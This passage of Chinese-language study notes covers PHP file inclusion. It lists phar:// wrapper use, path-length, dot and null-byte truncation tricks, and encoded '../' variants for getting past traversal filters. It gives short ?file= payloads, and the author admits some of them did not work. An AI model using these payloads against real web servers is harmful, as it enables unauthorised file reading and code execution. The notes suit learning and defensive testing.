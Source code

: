 #### phar://
```
[访问参数]   ?file=phar://zip.zip/phpinfo
[拼接后]     ?file=phar://zip.zip/phpinfo.php
```

### 长度截断
利用目录字符串在系统中如果达到了最大值，会将之后的字符丢弃。
**利用条件**
 - `php<5.2.8`
 - linux下字符长度>`4096`
 - window下字符长度>`256`

```
?file=../phpinfo.php/././././././.[…]/./././././.
```

**自己没成功，记录待解决**
php版本5.2.17，会出现warning报错

### 点号截断
**利用条件**
 - `php<5.2.8`
 - window环境下，并且字符长度>`256`
```
?file=../phpinfo.php/........[…]............
```
**也没成功**

### 0字节截断
>PHP内核是由C语言实现的，因此使用了C语言中的一些字符串处理函数。在连接字符串时，0字节(x00)将作为字符串的结束符。

**利用条件**
 - `magic_quotes_gpc=Off`
 - `php<5.3.4`

```
?file=../phpinfo.php%00
```
## ../绕过
一般情况下，如果../被过滤，可以尝试利用编码绕过。引用`chybeta大神的总结`
 - 利用url编码
   - ../
     - %2e%2e%2f
     - ..%2f
     - %2e%2e/
   - ..\
     - %2e%2e%5c
     - ..%5c
     - %2e%2e\
 - 二次编码
   - ../
%252e%252e%252f
   - ..\
     - %252e%252e%255c
 - 容器/服务器的编码方式
   - ../
     - ..%c0%af
       - 注：[Why does Directory traversal attack %C0%AF work?](https://security.stackexchange.com/questions/48879/why-does-directory-traversal-attack-c0af-work)
     - %c0%ae%c0%ae/
       - 注：java中会把”%c0%ae”解析为”\uC0AE”，最后转义为ASCCII字符的”.”（点）
       - Apache Tomcat Directory Traversal
   - ..\
     - ..%c1%9c